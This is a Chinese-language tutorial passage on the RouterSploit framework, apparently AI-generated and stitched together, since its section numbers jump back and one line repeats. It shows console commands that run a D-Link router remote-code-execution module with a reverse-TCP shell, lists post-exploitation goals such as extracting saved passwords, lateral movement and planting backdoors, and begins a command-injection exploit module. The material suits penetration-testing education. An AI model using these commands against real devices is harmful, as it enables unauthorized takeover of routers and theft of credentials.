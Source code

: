 步骤3：利用漏洞获取控制
假设发现了一个D-Link路由器的RCE漏洞：

bash
rsf > use exploits/routers/dlink/dir_8xx_remote_code_execution
rsf (D-Link DIR-8XX RCE) > set target 192.168.1.1
rsf (D-Link DIR-8XX RCE) > set payload reverse_tcp
rsf (D-Link DIR-8XX RCE) > set lhost 192.168.1.100
rsf (D-Link DIR-8XX RCE) > set lport 4444
rsf (D-Link DIR-8XX RCE) > run
步骤4：后渗透利用
一旦获得反向shell，可以：

提取设备配置（如路由表、ARP表、保存的密码等）

利用该设备作为跳板进行横向移动

持久化访问（如修改固件、添加后门等）

十五、RouterSploit的局限性及应对
依赖已知漏洞：RouterSploit主要针对已知漏洞，对于零日漏洞无能为力。因此，需要结合其他技术（如模糊测试、代码审计）来发现新漏洞。

设备覆盖范围：虽然支持很多设备，但仍有大量设备不在其列。此时需要手动测试或自己编写模块。

环境依赖性：某些漏洞利用可能依赖于特定的网络环境或设备配置，在实际测试中可能遇到各种问题。

检测逃避：RouterSploit本身不提供逃避IDS/IPS的功能，因此在严格监控的网络中可能被检测到。

十六、未来发展方向
RouterSploit项目仍在活跃开发中，未来的可能方向包括：

增加更多漏洞利用模块，覆盖更多设备和CVE

提高自动化和智能化水平，例如自动生成利用代码

增强隐蔽性，减少被检测的概率

与其他安全工具（如Metasploit、Nmap）的深度集成

十七、结语
RouterSploit作为一款专业的嵌入式设备漏洞利用框架，在渗透测试和安全研究领域具有重要价值。通过学习和使用RouterSploit，安全专业人员可以更有效地评估和提升网络设备的安全性。

重要的是，始终在合法和授权的范围内使用这些工具，并遵循道德准则。希望这份详细的介绍能够帮助你更好地理解和使用RouterSploit。

好的，我们继续深入探讨 RouterSploit 的更高级主题和实际应用。

好的，我们继续深入探讨 RouterSploit 的更高级主题和实际应用。

---

### 十二、RouterSploit 模块开发高级指南

#### 1. 完整的模块开发示例

让我们创建一个针对虚构设备的完整漏洞利用模块：

```python
from routersploit.core.exploit import *
from routersploit.core.http.http_client import HTTPClient

class Exploit(HTTPClient):
    __info__ = {
        "name": "Fictional Router RCE",
        "description": "Remote Code Execution in Fictional Router 9000 through command injection in ping utility",
        "authors": (
            "Security Researcher",  # 发现者
        ),
        "references": (
            "CVE-2023-12345",
            "https://www.example.com/advisory/12345",
        ),
```